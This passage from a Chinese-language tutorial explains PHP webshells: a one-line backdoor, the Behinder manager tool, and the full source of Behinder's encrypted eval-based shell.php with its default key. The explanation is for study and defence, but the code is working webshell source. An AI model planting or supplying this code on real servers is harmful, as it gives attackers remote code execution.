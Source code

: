 ```php
<?php $_GET['a']($_GET['b']);  ?>
```

行业内常称"一句话木马"为"小马"，用它来传递"大马"，因为"大马"比较容易被检测到。

#### 2.Webshell 管理工具

攻击者常用"菜刀""冰蝎""蚁剑"、Weevely、Cknife 这些 Webshell 工具去连接一句话木马，其中尤以"菜刀"最为出名。

由于原版"菜刀"只支持 Windows，因此我这边选用支持跨平台的"冰蝎"作为演示，可进入 [Github](https://github.com/rebeyond/Behinder/releases) 对"冰蝎"进行下载。

下载解压后的目录：

```java
$ tree
.
├── 更新日志.txt
├── Behinder_v3.0_Beta6_linux.jar
├── data.db
└── server
    ├── shell.asp
    ├── shell.aspx
    ├── shell.jsp
    ├── shell.jspx.jsp
    └── shell.php
```

server 目录就是用来上传服务端的小马，我们选择上传 shell.php，默认使用连接密码 rebeyond，你可根据需要自行修改，然后用密码 32 位 md5 哈希值替换 key 变量即可。

shell.php 代码如下：

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");  // 读取上传文件内容
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");   // 如果没有openssl扩展就调用base64_decode
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
        // 如果有openssl扩展就采用AES128位解密，因为冰蝎是加密传输的
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```
